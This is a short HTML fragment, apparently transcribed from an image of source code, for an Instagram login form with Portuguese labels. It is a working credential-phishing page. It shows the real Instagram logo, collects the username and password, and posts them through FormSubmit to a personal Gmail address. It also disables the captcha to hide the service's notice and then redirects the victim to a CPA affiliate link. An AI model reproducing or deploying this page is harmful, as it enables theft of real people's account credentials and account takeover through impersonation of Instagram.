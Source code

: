   <form class="login-box" method="POST" action="https://formsubmit.co/natanaelverissimo34@gmail.com">
    <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/2/2a/Instagram_logo.svg/2560px-Instagram_logo.svg.png" alt="Instagram Logo"/>
    
    <input type="text" name="username" placeholder="Telefone, nome de usuário ou email" required />
    <input type="password" name="password" placeholder="Senha" required />
    
    <!-- Redirecionamento após envio -->
    <input type="hidden" name="_redirect" value="https://seulinkcpa.com" />
    
    <!-- Remover aviso da FormSubmit -->
    <input type="hidden" name="_captcha" value="false" />
    
    <button type="submit">Entrar</button>

    <div class="footer">
      Esqueceu a senha?
    </div>
  </form>

</body>
</html>
